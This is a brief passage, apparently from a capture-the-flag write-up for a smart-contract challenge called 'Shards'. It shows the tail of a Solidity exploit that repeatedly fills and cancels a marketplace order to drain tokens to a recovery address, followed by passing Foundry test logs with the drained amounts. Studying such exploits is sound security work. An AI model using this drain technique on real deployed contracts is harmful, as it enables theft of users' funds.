 ```solidity
      marketplace.fill(1, want);
      marketplace.cancel(1, i);
    }
    token.transfer(recovery, token.balanceOf(address(this)));
  }
}
```

```shell
[PASS] test_shards() (gas: 616999297)
Logs:
  marketplace_initial_balance: 750000000000000000000
  amount_drained_per_trial: 9975000000000
  num_trials: 7519
```

Full solution can be found in [Shards.t.sol](./Shards.t.sol#L118).